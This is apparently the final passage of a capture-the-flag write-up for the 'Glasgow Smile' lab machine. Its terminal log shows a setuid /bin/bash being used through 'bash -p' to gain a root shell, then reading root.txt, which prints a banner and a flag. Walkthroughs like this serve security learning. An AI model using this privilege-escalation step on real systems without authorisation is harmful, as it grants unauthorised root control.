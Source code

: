```bash

exit 0

penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 17  2019 /bin/bash

penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ bash -p
bash-5.0# id
uid=1002(penguin) gid=1002(penguin) euid=0(root) groups=1002(penguin)
bash-5.0# cd /root
bash-5.0# ls
root.txt  whoami
bash-5.0# cat root.txt
  ▄████ ██▓   ▄▄▄       ██████  ▄████ ▒█████  █     █░     ██████ ███▄ ▄███▓██▓██▓   ▓█████
 ██▒ ▀█▓██▒  ▒████▄   ▒██    ▒ ██▒ ▀█▒██▒  ██▓█░ █ ░█░   ▒██    ▒▓██▒▀█▀ ██▓██▓██▒   ▓█   ▀
▒██░▄▄▄▒██░  ▒██  ▀█▄ ░ ▓██▄  ▒██░▄▄▄▒██░  ██▒█░ █ ░█    ░ ▓██▄  ▓██    ▓██▒██▒██░   ▒███
░▓█  ██▒██░  ░██▄▄▄▄██  ▒   ██░▓█  ██▒██   ██░█░ █ ░█      ▒   ██▒██    ▒██░██▒██░   ▒▓█  ▄
░▒▓███▀░██████▓█   ▓██▒██████▒░▒▓███▀░ ████▓▒░░██▒██▓    ▒██████▒▒██▒   ░██░██░██████░▒████▒
 ░▒   ▒░ ▒░▓  ▒▒   ▓▒█▒ ▒▓▒ ▒ ░░▒   ▒░ ▒░▒░▒░░ ▓░▒ ▒     ▒ ▒▓▒ ▒ ░ ▒░   ░  ░▓ ░ ▒░▓  ░░ ▒░ ░
  ░   ░░ ░ ▒  ░▒   ▒▒ ░ ░▒  ░ ░ ░   ░  ░ ▒ ▒░  ▒ ░ ░     ░ ░▒  ░ ░  ░      ░▒ ░ ░ ▒  ░░ ░  ░
░ ░   ░  ░ ░   ░   ▒  ░  ░  ░ ░ ░   ░░ ░ ░ ▒   ░   ░     ░  ░  ░ ░      ░   ▒ ░ ░ ░     ░
      ░    ░  ░    ░  ░     ░       ░    ░ ░     ░             ░        ░   ░     ░  ░  ░  ░



Congratulations!

You've got the Glasgow Smile!

JKR{68028b11a1b7d56c521a90fc18252995}


Credits by

mindsflee
bash-5.0#
```

Hope it helps!